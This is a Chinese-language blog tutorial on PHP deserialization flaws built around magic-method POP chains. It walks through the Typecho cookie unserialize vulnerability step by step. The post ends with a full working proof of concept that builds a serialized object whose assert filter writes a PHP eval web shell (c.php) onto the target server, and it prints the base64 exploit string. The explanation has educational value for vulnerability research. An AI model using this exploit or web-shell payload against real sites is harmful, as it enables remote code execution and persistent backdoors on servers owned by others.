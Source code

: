 ```yaml
---
layout: post
title: PHP反序列化漏洞分析与构造
noToc: true
date: 2020-02-07 15:30:00 +0800
tags: WEB安全  漏洞分析
cover: '../assets/php_unserialize.png' 
---
```


## PHP反序列化漏洞分析与构造

### 简介

序列化是将对象转换为字符串以便存储传输的一种方式 ，反序列化是将字符串转换为对象供程序使用。有关函数为serialize()和unserialize() ，反序列化本身并不危险,但是如果反序列化时,传入反序列化函数的参数可以被用户控制 。

反序列化漏洞原因，序列化和反序列化时会调用魔术方法。一般涉及的函数有

__construct 构造函数,创建对象时自动调用

__wakeup  使用unserialse()函数时会自动调用

__destruct 当对象被销毁时自动调用  (php绝大多数情况下会自动调用销毁对象)

__toString()当一个对象被当作一个字符串使用 

__wakeup将在序列化之后立即被调用

如果服务器能够接收我们反序列化过的字符串、并且未经过滤的把其中的变量直接放进这些魔术方法里面的话，就容易造成很严重的漏洞了 。从而也就在TP的POP链的发掘中会有各种pop链的利用。

### 反序列化poc构造

寻找入口点（存在魔术方法和可控点）

根据入口点实例化一个类A

类中调用魔术方法并类中成员赋值，存在一个可控的方法M(a)。

创建恶意对象B

实例化B:B1，实例化A:A1并将B添加到A:A1->M('a'->B1)

exp=A1->M('a'->B1)

echo serialize(exp)

#### 实例1-***Typecho反序列化漏洞***

适配器Adapter配置

```php
<?php
   $config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
   Typecho_Cookie::delete('__typecho_config');
   $db = new Typecho_Db($config['adapter'], $config['prefix']);
   $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
   Typecho_Db::set($db);

?>
```

**1->unserialize存在不安全反序列化**

**2->入口点存在魔术方法**

```php
public function __construct($adapterName, $prefix = 'typecho_'){    /** 获取适配器名称 */
   $this->_adapterName = $adapterName;    /** 数据库适配器 */
   $adapterName = 'Typecho_Db_Adapter_' . $adapterName;
```

如果适配器Adpter是一个类，就形成了类和字符串的拼接，可以用来触发这个类`__toString()`方法，`__toString`:对象转换为字符串时触发。——》**3->Adpter类可控**

那么就可以寻找`__toString`方法

```php
foreach ($this->_items as $item) {
$content .= '<item>' . self::EOL;
$content .= '<title>' . htmlspecialchars($item['title']) . '</title>' . self::EOL;
$content .= '<link>' . $item['link'] . '</link>' . self::EOL;
$content .= '<guid>' . $item['link'] . '</guid>' . self::EOL;
$content .= '<pubDate>' . $this->dateFormat($item['date']) . '</pubDate>' . self::EOL;
$content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;
```

screenName可控，由数组_items遍历得来。screnName是一个无法直接被调用的变量，就会触发__get()方法。

而__get()方法存在于Request.php

get()方法：

```php
public function __get($key){return $this->get($key);
}
```

$key就是screenName，是我们可以控制的输入值，跟进$this->get()方法：

```php
private function _applyFilter($value){if ($this->_filter) {foreach ($this->_filter as $filter) {
$value = is_array($value) ? array_map($filter, $value) : call_user_func($filter, $value);
}$this->_filter = array();
}return $value;
}
```

存在array_map()、call_user_func()危险函数，那么可以控制$value来执行代码。

构造时可通过在adapder类中创建一个可控的方法获M(array $item)

```php
public function M(array $item)
{
$this->_tems[]=$item;
}
```

将`__toString`后的可控参数$item添加到Adpter类类中并在魔术方法对象A创建时调用。

**创建恶意对象类B**

```php
class B
{
private $_params = array('screenName'=>'fputs(fopen(\'./usr/themes/default/img/c.php\',\'w\'),\'<?php @eval($_POST[a]);?>\')');
    private $_filter = array('assert');
}
```

**最终构造POC**

```php
class A
{
    const RSS2 = 'RSS 2.0';
    private $_type;
    private $_charset;
    private $_lang;
    private $_items = array();

    public function __construct($version, $type = self::RSS2, $charset = 'UTF-8', $lang = 'en')
    {
        $this->_version = $version;
        $this->_type = $type;
        $this->_charset = $charset;
        $this->_lang = $lang;
    }

    public function M(array $item)
    {
        $this->_items[] = $item;
    }
}
//创建恶意对象B
class B
{
    private $_params = array('screenName'=>'fputs(fopen(\'./usr/themes/default/img/c.php\',\'w\'),\'<?php @eval($_POST[a]);?>\')');
    private $_filter = array('assert');
    //private $_filter = array('assert', array('Typecho_Response', 'redirect'));

}
//实例化B:B1，实例化A:A1并将B1添加到A:A1->M('a'->B1)
$A1=new A(5,'ATOM 1.0');
$B1=new B();
$A1->M(array('author'=>$B1));
$exp['adapter']=$A1;
$exp['prefix']='Rai4over';
echo base64_encode(serialize($exp));
```

参考文章：https://mp.weixin.qq.com/s/TM0v7dTpTHDnebLu5IRNSg

#### 实例二-待续~